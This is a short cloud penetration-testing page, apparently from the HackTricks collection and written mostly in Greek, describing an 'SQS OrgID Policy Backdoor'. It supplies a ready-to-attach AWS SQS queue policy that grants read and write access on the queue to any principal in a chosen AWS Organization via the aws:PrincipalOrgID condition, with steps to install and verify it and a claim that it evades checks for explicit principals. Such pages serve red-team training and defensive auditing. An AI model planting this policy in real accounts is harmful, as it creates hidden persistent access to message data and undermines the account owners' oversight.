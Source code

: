 # AWS - SQS OrgID Policy Backdoor

{{#include ../../../../banners/hacktricks-training.md}}

Καταχράσου την πολιτική πόρου ενός SQS queue για να παραχωρήσεις αθόρυβα τα Send, Receive και ChangeMessageVisibility σε οποιονδήποτε principal που ανήκει σε μια στοχευμένη AWS Organization χρησιμοποιώντας τη συνθήκη aws:PrincipalOrgID. Αυτό δημιουργεί ένα περιορισμένο στην οργάνωση (org-scoped) κρυφό μονοπάτι που συχνά παρακάμπτει ελέγχους που κοιτούν μόνο για ρητά account ή role ARNs ή star principals.

### Backdoor policy (attach to the SQS queue policy)
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OrgScopedBackdoor",
"Effect": "Allow",
"Principal": "*",
"Action": [
"sqs:ReceiveMessage",
"sqs:SendMessage",
"sqs:ChangeMessageVisibility",
"sqs:GetQueueAttributes"
],
"Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
"Condition": {
"StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
}
}
]
}
```
### Βήματα
- Αποκτήστε το Organization ID με το AWS Organizations API.
- Πάρτε το SQS queue ARN και ορίστε την πολιτική ουράς συμπεριλαμβάνοντας τη δήλωση παραπάνω.
- Από οποιονδήποτε principal που ανήκει σε εκείνη την Organization, στείλτε και λάβετε ένα μήνυμα στην ουρά για να επικυρώσετε την πρόσβαση.

### Επιπτώσεις
- Κρυφή πρόσβαση σε επίπεδο Organization για ανάγνωση και εγγραφή SQS μηνυμάτων από οποιονδήποτε λογαριασμό στην καθορισμένη AWS Organization.

{{#include ../../../../banners/hacktricks-training.md}}
